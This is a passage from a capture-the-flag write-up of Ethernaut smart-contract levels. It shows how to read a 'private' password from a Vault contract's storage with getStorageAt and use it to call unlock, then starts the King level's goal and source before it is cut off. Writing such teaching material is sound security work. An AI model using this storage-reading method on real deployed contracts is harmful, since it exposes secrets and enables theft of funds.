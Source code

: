 ### Vulnerable Parts

```solidity
bool public locked;
bytes32 private password;
```

1. Although this `password` variable is private. There are still some ways to read a contract's storage.
2. For example, web3.eth.getStorageAt(addr, varPosition); from web3.js

### Attack!

1. In the console, call `await web3.eth.getStorageAt(contract.address, 1);` (1 because `password` is at the second position).
2. Then, we get a hex `0x412076657279207374726f6e67207365637265742070617373776f7264203a29`.
3. Use this hex to unlock the vault. `await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")`
4. `await contract.locked()` will give us `false` now.
5. Enjoy the gold inside the vault.

### Note

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.

### Special Mention

[Read the damn docs](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)
[Solidity by example](https://solidity-by-example.org/)

## 9. King

### Goal

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

### Source Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;
    king = msg.sender;
    prize = msg.value;
```